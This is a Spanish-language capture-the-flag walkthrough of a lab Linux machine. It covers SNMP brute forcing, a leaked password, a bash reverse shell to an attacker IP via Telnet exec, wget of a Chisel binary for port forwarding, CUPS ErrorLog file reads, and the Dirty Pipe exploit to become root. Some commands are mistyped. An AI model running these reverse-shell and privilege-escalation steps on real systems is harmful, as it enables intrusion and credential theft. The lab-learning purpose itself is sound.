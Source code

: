 ## Summary

Tags: #UDP #Chisel #PortForwarding #GCC #Telnet #Linux #UDP #SNMP #Chisel #CUPS

- IP -> 10.10.11.107
- Ports -> TCP (23), UDP (161)
- OS ->  Linux
- Services & Applications
    - 23 -> Telnet
    - 161 -> SNMP 

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p23 ❮Target IP❯ -oN targeted
```
Solo encontramos el puerto 23 OPEN, por lo que decidimos escanear por UDP

```bash
❯ nmap -sU --top-ports 100 --open -T5 -v -n ❮Target IP❯     # Escaneo de puertos por UDP
```
Descubrimos el puerto 161 SNMP 

Ahora nos ponemos a explorar en ese puerto.
```bash
/usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt     # Diccionario del snmp a usar para Fuerza Bruta
```

```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt ❮IP❯     # Sirve para hacer Fuerza Bruta al snmp y encontrar los 'community strings'
```

```bash
❯ snmwalk -c public -v2c ❮IP❯                                                     # Sirve para poder inspeccionar el puerto SNMP

	# c = Community string, 'Public' es el mas comun
	# v2c = version

❯ snmwalk -c public -v2c ❮IP❯ 1                                                   # Colocar 1 significa que empezara desde la raiz '/' y asi poder enco0ntrar mas informacion acerca del protocolo, por default empieza desde el 2
```

* El primer comando en esta ocasion nos regresa un "HTB-PRINTER"
* El segundo nos devuelve mas informacion y ahi encontramos BITS en Hexadecimal 

```bash 
❯ echo '50 40 73 73 77 30 72 64 40 ...' | xargs | xxd -ps -r               # Nos convierte la cadena de Hex a 

	# xargs = Nos pone la cadena en una sola linea
	# xxd = Nos invierte el proceso del Hex
```
Nos regresa lo siguiente: **P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i** que es una passwd

## User

Ahora nos regresamos a Telnet y probamos con esa passwd

```bash 
❯ telnet <IP> 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```

```bash
❯ nc -nlvp 443                   # Nos ponemos en escucha para recibir la ReverShell
```
Ahora estamos adentro de la maquina 

* Le hacemos el tratamiento a la pseudoconsola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora podemos buscar la flag user.txt

```bash
❯ sudo -l                                                # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root
```

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
```
Pero tampoco encontramos algo 

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 
```
Encopntramos el puerto 631

```bash
❯ curl http://127.0.0.1:631                       # Para ver si hay contenido en ese puerto 
```
Nos muestra contenido de una pagina web llamada '**CUPS 1.6.1'

Nos traeremos ese puerto a nuestra maquina de atacante con Chisel
* [Chisel](https://github.com/jpillora/chisel)
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

```bash
❯ python3 -m http.server 80                          # Nos montamos un servidor http 80 para poder pasar el Chisel a la maquina victima 
```

En la maquina victima nos dirigimos al dir **/tmp** ya que el contiene permisos de lectura y escritura. Ahi ejecutamos el siguiente comando
```bash
❯ wget http://10.10.14.4/chisel                      # Para poder cargar o descargar un archivo especifico desde una IP de atacante
❯ chmod +x chisel                                    # Le damos permisos de ejecucion a Chisel
```

```bash
❯ ./chisel server --reverse -p 1234          # Server 'Maquina de atacante'
❯ ./chisel client 10.10.14.4:1234 R:631:127.0.0.1:631 # Cliente 'Maquina victima'
```
Ahora podemos ingresar de forma local a nuestro **Localhost:631**, en donde podemos irar una web. 

```bash
❯ searchsploit cups                # Para buscar un exploit
```

Buscamos en Google
* [CUPS-Explot](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb)
Si filtramos por **exec**, podemos ver que es lo que ejecuta el exploit. Ecnontramos que podemos controlar el log de error

Ahora en la maquina victima hacemos lo siguiente:
```bash
❯ which cupsctl                                               # Para ver si existe ese binario
```

```bash
❯ cupsctl ErrorLog=/etc/passwd                                # Utilizando el binario, generaremos el error
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior
```

## Root

```bash
❯ cupsctl ErrorLog=/root/root.txt
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior y podremos ver la flag de root
```


---
#### Segunda forma de explotacion 

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

Ahora vamos por la flag de **root.txt**